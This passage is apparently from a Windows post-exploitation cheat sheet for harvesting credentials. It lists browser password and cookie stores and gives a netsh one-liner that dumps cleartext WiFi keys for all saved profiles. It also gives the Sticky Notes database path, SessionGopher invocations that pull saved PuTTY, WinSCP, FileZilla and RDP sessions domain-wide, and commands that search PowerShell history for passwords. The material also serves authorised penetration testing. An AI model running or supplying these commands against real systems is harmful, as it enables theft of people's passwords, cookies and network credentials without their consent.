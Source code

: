 ```
 access.log
 error.log
 server.xml
 setupinfo
 setupinfo.bak
 key3.db #Firefox
 key4.db #Firefox
 places.sqlite #Firefox
 "Login Data" #Chrome
 Cookies #Chrome
 Bookmarks #Chrome
 History #Chrome
 TypedURLsTime #IE
 TypedURLs #IE
```

* [ ] Creds from WiFi

```
 # 1. Find AP SSID
 netsh wlan show profile
 # 2. Get cleartext password
 netsh wlan show profile <SSID> key=clear
 # OR
 # Go hard and grab 'em all
 cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

* [ ] Creds from sticky notes app

```
c:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
```

* [ ] Creds stored in services

```
 # SessionGopher to grab PuTTY, WinSCP, FileZilla, SuperPuTTY, RDP
 # https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
 Import-Module path\to\SessionGopher.ps1;
 Invoke-SessionGopher -AllDomain -o
 Invoke-SessionGopher -AllDomain -u domain.com\adm\-arvanaghi -p s3cr3tP@ss
```

* [ ] Creds from Powershell History

```
 type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
 type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
 type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
 cat (Get-PSReadlineOption).HistorySavePath
 cat (Get-PSReadlineOption).HistorySavePath | sls passw
```
